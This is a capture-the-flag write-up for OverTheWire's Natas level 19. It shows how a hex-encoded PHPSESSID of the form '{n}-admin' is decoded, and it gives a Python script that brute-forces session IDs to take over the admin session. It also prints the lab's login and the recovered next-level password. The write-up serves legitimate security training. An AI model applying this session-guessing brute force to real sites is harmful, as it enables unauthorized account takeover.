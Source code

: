 # Writeup level 19
The page says:  
> This page uses mostly the same code as the previous level, but session IDs are no longer sequential...  

Checking out the session we can see that the value of PHPSESSID is in hex. When we unhex that value we can see that the session id is built like the following:  
{1..640}-{username}  

So our bruteforce will change to be the following:  

- built a new String like: {i}-admin
- i starts at 1 and ends at 640

**Exploit**  
```python
import requests

url = "http://natas19.natas.labs.overthewire.org/index.php?debug=true"
data={"username": "admin", "password": "1234"}

for i in range(1,641):
	payload = f"{i}-admin".encode('utf-8')
	payload_hex = payload.hex()

	cookies = {'PHPSESSID': payload_hex}
	r = requests.post(url, cookies=cookies,data=data, auth=("natas19", "4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs"))

	if("You are an admin." in r.text):
		print(r.text)
		break
	else:
		print(i)

```
 

The password is:  
eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF



